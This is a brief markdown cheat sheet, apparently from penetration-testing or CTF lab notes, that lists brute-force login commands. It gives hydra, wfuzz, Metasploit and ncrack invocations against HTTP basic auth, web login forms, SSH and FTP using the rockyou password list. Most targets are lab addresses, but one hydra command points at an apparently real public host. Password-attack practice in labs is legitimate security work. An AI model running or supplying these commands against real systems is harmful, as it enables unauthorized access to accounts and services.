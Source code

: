 
- https://github.com/gnebbia/hydra_notes

### Bruteforcing HTTP 

Basic authorization:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt "https-get://jfog.io/artifactory/api/build:F=403" -V -I
```

Bruteforcing a www-encoded login form with wfuzz

```bash
wfuzz -c -z file,/usr/share/seclists/Passwords/2020-200_most_used_passwords.txt -d "log=FUZZ&pwd=secretPass123" "$URL"
```

Bruteforcing a www-encoded login form with hydra 

```bash
hydra -l nagiosadmin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/nagiosxi/login.php:username=^USER^&password=^PASS^:F=Invalid username or password." -V -I
```

## Bruteforcing SSH 

With hydra 

```bash
hydra -l gaara -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh -V -I
```

Attacking an SSH service on a custom port:

```bash
hydra -s 7744 -l gaara -P /usr/share/wordlists/rockyou.txt $IP -t 4 ssh -V -I
```

With Metasploit 

```bash
msfconsole -x "use auxiliary/scanner/ssh/ssh_login; set RHOSTS 192.168.222.82; set USERNAME geisha; set PASS_FILE /usr/share/wordlists/rockyou.txt; set THREADS 30; set VERBOSE true; run"
```

With Ncrack 

```bash
ncrack -p 22 --user geisha -P /usr/share/wordlists/rockyou.txt 192.168.222.82
```

### Bruteforcing FTP 

With hydra

```bash
hydra -l geisha -P /usr/share/wordlists/rockyou.txt 192.168.222.82 -t 30 ftp -V -I
```
